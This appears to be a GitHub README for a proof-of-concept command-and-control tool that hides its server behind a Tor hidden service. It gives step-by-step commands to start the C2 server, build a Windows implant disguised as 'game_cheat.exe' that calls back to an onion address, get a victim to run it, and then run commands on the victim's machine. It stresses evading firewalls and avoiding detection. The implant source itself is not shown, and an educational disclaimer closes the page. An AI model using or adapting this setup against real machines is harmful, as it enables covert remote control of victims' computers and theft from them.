



# Anonymous C2 Infrastructure

A Proof-of-Concept (PoC) Command and Control (C2) infrastructure that operates entirely over **Tor Hidden Services**. This project demonstrates how to build a resilient, anonymous, and cross-platform C2 system that bypasses firewalls and NAT without requiring port forwarding or public IPs.


## Key Features

### 1. Hidden Service Architecture
The C2 server runs as a Tor Hidden Service. It does not expose a public IP address, making the physical location of the server impossible to trace via network traffic.
- **Anonymity**: Server IP is never revealed.
- **Resilience**: Resistant to IP-based blocking.



### 2. Firewall & NAT Evasion
Traditional C2s require port forwarding or a public IP to receive reverse shell connections. This project uses Tor's rendezvous protocol.
- **No Port Forwarding**: Works behind strict firewalls and CGNAT.
- **Bypasses Inbound Rules**: All traffic is technically "outbound" to the Tor network.



### 3. End-to-End Encryption
All communication between the implant and the C2 server is encrypted by the Tor protocol (AES-256).
- **No SSL Certificates Needed**: Encryption is inherent to `.onion` services.
- **Traffic Analysis Resistant**: Network sniffers (like Wireshark) only see encrypted Tor cells.


### 4. Automated Payload Builder
Includes a `builder.py` script that automates the cross-compilation process.
- **One-Click Build**: Generates a standalone Windows executable (`.exe`) from Python source.
- **Embedded Config**: Automatically embeds the C2's `.onion` address into the payload.


### 5. Asynchronous Beaconing
The implant does not maintain a persistent connection. Instead, it "beacons" (checks in) at randomized intervals.
- **Heartbeat Mechanism**: Checks for tasks every 10 seconds.
- **Stealth**: Harder to detect than a constant TCP stream.

### 6. Interactive C2 Shell
A custom Command Line Interface (CLI) for managing multiple agents.
- **Session Management**: List, select, and interact with specific agents.
- **Command Queueing**: Queue commands for offline agents to execute when they check in.



---

## Components

1.  **Server (`server/`)**: Flask-based application handling beacons and command queueing.
2.  **Implant (`implant/`)**: Python payload that executes commands on the victim.
3.  **Builder (`builder.py`)**: Script to package the implant into an executable.
4.  **Tor Manager (`utils/tor_manager.py`)**: Handles the creation and management of the Tor Hidden Service.

## Prerequisites

- **Attacker**: Linux (Debian/Kali) with `tor` installed.
- **Victim**: Windows 10/11 (Target) with Tor Browser (or system Tor) running.
- **Python 3.8+**

## Quick Start

### 1. Setup C2 Server (Attacker - Linux)

**Step 1: Clone & Prepare Environment**
```bash
# Clone the repository
git clone https://github.com/Otsmane-Ahmed/anonymous-c2-infrastructure.git
cd anonymous-c2-infrastructure

# Create and Activate Virtual Environment
python3 -m venv myvenv
source myvenv/bin/activate

# Install dependencies
pip3 install -r requirements.txt
```

**Step 2: Configure Tor**
*   **Install Tor**: `sudo apt install tor`
*   **STOP System Tor**: You must stop the system-wide Tor service to avoid port conflicts.
    ```bash
    sudo systemctl stop tor
    ```
*   **Clean Up**: If you have run this before, delete the old hidden service folders to avoid ambiguity.
    ```bash
    rm -rf c2_hidden_service c2_hidden_service_debug
    ```

**Step 3: Start the Server**
```bash
python3 cli.py start-c2
```
*Copy the generated `.onion` address (e.g., `http://xyz...onion`). Keep this terminal open.*

### 2. Build Payload (Victim - Windows)

**Prerequisites:**
1.  **Clone the Repo**: Clone this repository to the victim machine (or transfer the `builder.py` file).
2.  **Python**: Install Python 3.8+ and **Add to PATH**.
3.  **Tor**: Install Tor Browser, open it, and **keep it running** (port 9150).

**Build Command:**
```bash
# Generate the implant executable
python builder.py --url http://<your_onion_address>.onion --tor-port 9150 --name game_cheat
```
*This creates `game_cheat.exe` in the current directory.*

### 3. Execute & Control

**IMPORTANT: Follow this order exactly!**

1.  **Attacker (Linux)**: Open a **new terminal**, navigate to the project, and start the C2 Shell.
    ```bash
    cd anonymous-c2-infrastructure
    source myvenv/bin/activate
    python3 cli.py shell
    ```
    *You are now listening for connections.*

2.  **Victim (Windows)**: Run the generated payload.
    *   Double-click `game_cheat.exe`.

3.  **Attacker**: You will see the agent check in.
    ```bash
    C2> list
    C2> use <AGENT_ID>
    C2 (<AGENT_ID>)> exec whoami
    C2 (<AGENT_ID>)> check
    ```

## Disclaimer

This project is for **educational purposes and authorized security testing only**. Using this tool on systems without explicit permission is illegal. The author is not responsible for any misuse.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

<p align="center">
  Made with ❤️ by <b>Otsmane Ahmed</b>
</p>

